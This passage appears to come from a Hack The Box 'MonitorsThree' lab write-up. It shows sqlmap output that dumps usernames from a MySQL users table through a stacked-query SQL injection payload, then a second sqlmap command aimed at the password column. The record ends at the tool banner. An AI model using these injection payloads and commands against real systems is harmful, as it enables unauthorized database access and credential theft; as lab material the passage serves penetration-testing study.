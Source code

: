 ```bash
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=' OR 1=1;SELECT SLEEP(5)#-- --
---
[12:39:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:39:25] [INFO] fetching entries of column(s) 'username' for table 'users' in database 'monitorsthree_db'
[12:39:25] [INFO] fetching number of column(s) 'username' entries for table 'users' in database 'monitorsthree_db'
[12:39:25] [INFO] resumed: 4
[12:39:25] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[12:40:09] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
a

[12:41:01] [INFO] adjusting time delay to 1 second due to good response times
dmin
[12:42:06] [INFO] retrieved: dthompson
[12:45:34] [INFO] retrieved: janderson
[12:48:17] [INFO] retrieved: mwatson
Database: monitorsthree_db
Table: users
[4 entries]
+-----------+
| username  |
+-----------+
| admin     |
| dthompson |
| janderson |
| mwatson   |
+-----------+

[12:50:39] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/root/.local/share/sqlmap/output/monitorsthree.htb/dump/monitorsthree_db/users.csv'
[12:50:39] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/monitorsthree.htb'

[*] ending @ 12:50:39 /2025-01-17/
```
usernames dumped
- admin
- dthompson
- janderson
- mwatson

```bash
[Jan 17, 2025 - 12:50:40 ] htb monitors3 ➜  sqlmap -r request.txt --random-agent --level=5 --risk=3 -D monitorsthree_db -T users -C password --dump --technique=BEUS        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.11.9#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:19:26 /2025-01-17/
```